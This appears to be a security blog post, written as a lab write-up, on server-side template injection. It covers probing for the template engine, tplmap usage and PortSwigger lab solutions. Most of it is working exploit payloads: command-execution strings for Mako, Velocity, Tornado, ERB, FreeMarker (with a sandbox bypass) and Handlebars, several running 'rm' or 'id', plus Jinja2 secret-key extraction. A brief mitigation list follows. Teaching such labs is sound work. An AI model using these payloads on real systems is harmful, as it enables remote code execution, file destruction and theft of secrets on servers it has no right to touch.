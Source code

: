```yaml
---
title: "Server Side Templete Injection"
tags:
    - WEB
    - ssti
date: "2024-08-6"
thumbnail: "/assets/img/thumbnail/ssti.jpg"
bookmark: true
---
```

# Description
---
some web application use template to enable dynamic content generation in pages 
Attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.
attacks depending on the template engine in question and how exactly the application uses it.
# impact
---
- remote code execution,
- taking full control of the back-end server
- read access to sensitive data and arbitrary files on the server.
---
**Not vulnerable to server-side template injection:**
because the user's first name is merely passed into the template as data.
```python
 $output = $twig->render("Dear {first_name},", array("first_name" => $user.first_name) );
```
**Vulnerable to server-side template injection:**
```python
`$output = $twig->render("Dear " . $_GET['name']);`
```
**Server-side template injection attack**
<img src="/assets/img/ssti/1.png">
<img src="/assets/img/ssti/2.png">
For example, the payload `{{7*'7'}}`returns `49`in Twig and `7777777` in Jinja2

**Basic template syntax**
```python
<%
    import os
    x=os.popen('id').read()
%>
    ${x}
```
**To get Template type:**
1- make error to get it like abuse syntax
2- trying 
```bash
`{{7*7}}`
`${7*7}`
`${{7*7}}`
`#{7*7}`
`*{7*7}`
`${{<%[%'"}}%\`
```
**Tools**
1- The basic syntax for tplmap is different depending on whether you're using get or post
 GET ->  tplmap -u url/?vulnparam 

 POST-> tplmap -u url -d vulnparam 
```bash
./tplmap.py -u http://0.0.0.0:5000/ -d ‘name’
./tplmap.py -u http://0.0.0.0:5000/ -d ‘name’ --os-cmd “id”
```
**Explore**
Many template engines expose a "`self`" or "`environment`" object of some kind, which acts like a namespace containing all objects, methods, and attributes that are supported by the template engine.
Some objects because they are especially likely to contain sensitive information or exploitable methods.
For example, in Java-based templating languages, you can sometimes 
list all variables in the environment using the following injection:
```java
${T(java.lang.System).getenv()}
```
**Exploit using an object chain (way to bypass sandbox)**
Chaining together the right objects and methods sometimes allows you to gain access to dangerous functionality and sensitive data that initially appears out of reach.
For example, in the Java-based template engine Velocity, you have access to a `ClassTool` object called `$class`. Studying the documentation reveals that you can chain the `$class.inspect()` method and `$class.type`property to obtain references to arbitrary objects. In the past, this 
has been exploited to execute shell commands on the target system as 
follows:
```java
$class.inspect("java.lang.Runtime").type.getRuntime().exec("bad-stuff-here")
```
# Portswigger Scenarios 
---
**1- Tornado (Python)**
make error to know the template type
code:
<img src="/assets/img/ssti/3.png">
payload:

```python
user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')
```
**2- ERB (Ruby)**
tried `<%= 7*7 %> = 49` to know template type
```rb
<%= system("rm /home/carlos/morale.txt") %>
```
**3- FreeMarker (Java)**
Make error with ${ testing } to know the template type
```java
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
```
**4- Handlebars (NodeJS)**
make error with payloads to know the template type
payloads:

we have to url encode it to able to put it in parameter (message)
```js
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```
**5- Jinja2 (Python)**

after we knew we using python so we tried `{% debug %}` it debug all objects , one of them was `settings` so we tried {{settings.SECRET_KEY}}

settings is object 

SECRET_KEY is method

**6- FreeMarker (Java) Bypass sandbox**

Make error with ${ testing } to know the template type

```bash
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

but we notice article isn’t object in this website so we have to change it to right one

# Mitigation

- never allow users to modify or create templates.
- use of regex, white lists of authorised expressions.
- Sandboxing that creates a safe, isolated environment for users. but sandbox environments are difficult to set up and can be bypassed
  by misconfiguration or oversights.
---

Reference 4 all exploits [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection]
---

